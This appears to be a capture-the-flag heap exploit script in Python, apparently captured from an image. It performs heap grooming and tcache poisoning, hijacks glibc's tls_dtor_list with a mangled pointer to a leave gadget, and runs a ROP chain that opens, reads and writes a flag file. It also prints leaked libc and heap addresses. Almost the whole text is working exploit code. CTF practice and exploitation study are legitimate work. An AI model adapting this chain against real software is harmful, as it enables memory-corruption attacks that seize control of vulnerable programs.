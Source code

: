 ```python
key = data[6]


for i in range(759):
    add(14,128,b"/bin/sh\x00")
for i in range(13):
    add(i,0x48,b"/bin/sh\x00")
for i in range(13):
    delete(i)
add(14,128,b"a"*8)
add(14,0x58,b"a"*8)
# fd
add(14,128,p64(0)+p64(0x100)+p64(0x100)+p64(1)+p64(base_heap+0x42050+0x10))
# index 8
for i in range(8):
    add(i,0x78,b"/bin/sh\x00")
for i in range(9,13):
    add(i,0x78,b"/bin/sh\x00")
for i in range(8):
    delete(i)
for i in range(9,12):
    delete(i)
delete(8)
write = p64(base_libc+0x114870)
open64 = p64(base_libc+0x1144E0  )
read = p64(base_libc+0x1147D0)
pop_rdi = p64(base_libc+0x2a3e5)
pop_rsi = p64(base_libc+0x2be51)
pop_rdx_r12 = p64(base_libc+0x11f2e7)
pop_rsp = p64(base_libc+0x35732)
leave = base_libc+0x133BEA
flag = base_heap+0x1398
r_s = base_heap+0x1390
buff = base_heap+0xf40
sendline = base_libc+0x119170
addr = rol(leave^key)
pop_rcx =base_libc +0x3d1ee
for i in range(4):
    add(i,0x78,b"r\x00".ljust(8,b"\x00")+b"./flag\x00".ljust(8,b"\x00"))
add(4,0x78,b"\x00"*0x60)
add(5,0x78,b"a")
add(6,0x78,pop_rdi+p64(1)+pop_rsi+p64(buff)+pop_rdx_r12+p64(0x40)+p64(0)+write)
tls_dtor_list = tls-88
add(7,0x78,p64((xor+0x42)^(tls_dtor_list-8)))
add(14,0x78,b"\x00")
add(14,0x78,b"\x00")
add(14,0x78,p64(0)+p64(base_heap+0x42260))
# add(14,128,p64(addr)+pop_rdi+p64(1)+pop_rsi+p64(buff)+pop_rdx_r12+p64(0x30)+p64(0)+write)
add(14,128,p64(addr)+pop_rdi+p64(flag)+pop_rsi+p64(0)+open64+pop_rdi+p64(3)+pop_rsi+p64(buff)+pop_rdx_r12+p64(0x30)+p64(0)+read+pop_rsp+p64(base_heap+0xba0))
print("tls_dtor_list",hex(tls_dtor_list))
print("canary",hex(canary))
print("key",hex(key))
print("base_heap",hex(base_heap))
print("base_libc",hex(base_libc))
print("addr",hex(addr))
print("leave:",hex(leave))
# debug()
# 0x556f210bd050-0x556f2107b000
# print("canary",hex(canary))
# print("key",hex(key))
# print("base_heap",hex(base_heap))
# print("base_libc",hex(base_libc))
```